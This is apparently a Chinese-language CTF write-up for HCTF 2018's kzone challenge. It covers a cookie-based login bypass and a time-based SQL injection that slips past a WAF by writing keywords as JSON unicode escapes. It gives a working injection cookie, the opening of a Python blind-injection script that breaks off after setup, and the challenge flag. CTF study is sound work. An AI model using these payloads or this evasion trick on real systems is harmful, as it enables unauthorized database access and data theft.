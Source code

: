 可以看到这段代码从cookie获取了登陆信息，如果符合几个if，就能登陆
想到通过注入 ，union select 替换掉admin_user和admin_pass
尝试构造弱类型绕过：
Cookie: PHPSESSID=s33h9c1u8bq5t0r8s4dura0c76; islogin=1; login_data={"admin_user":"admin'||'1","admin_pass":65}
（一开始没构造出来，然后就转思路去bypass waf了

参考这篇文章
http://blog.sina.com.cn/s/blog_1574497330102wruv.html
虽然他没绕过关键词检测，但是顺着他的思路尝试构造了
 \u0075nion，本地测试发现json_decode后变为union，成功bypass waf
构造一个sleep的cookie，放到服务端测试也sleep了，证明此处注入可行
```
Cookie:PHPSESSID=t0k91etf5fecbi4t25d7hprtm3;islogin=1;login_data={"admin_user":"admin111'/**/\u0075nion/**/select/**/1,2,3,4,5,6/**/from/**/fish_admin/**/where/**/\u0073leep(3)\u003d'1","admin_pass":"3b30a11aaba222edd6e704e9959b94643ed4ffd9"}
```

![](/img/2018-hctf-6.png)

后面就把所有关键词用这种方法绕过，就能直接注入了，最后flag在 F1444g表的F1a9字段
附上注入脚本
```python
#!/usr/bin/python
#!coding:utf-8#
# xishir
import requests
import time
import datetime

#hctf{4526a8cbd741b3f790f95ad32c2514b9}

ss = "{}_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-+"
r = requests.session()
url = "http://kzone.2018.hctf.io/admin/"
#url="http://127.0.0.1/hctf/www/admin/"

union = '\u00'+str(hex(ord('u')))[2:]+'nion'
sleep = '\u00'+str(hex(ord('s')))[2:]+'leep'
ascii = '\u00'+str(hex(ord('a')))[2:]+'scii'
ok = '\u00'+str(hex(ord('=')))[2:]
substr = '\u00'+str(hex(ord('s')))[2:]+'ubstr'
over = '\u00'+str(hex(ord('#')))[2:]
blank = "/**/"
orr = '\u00'+str(hex(ord('o')))[2:]+'r'

flag=""
```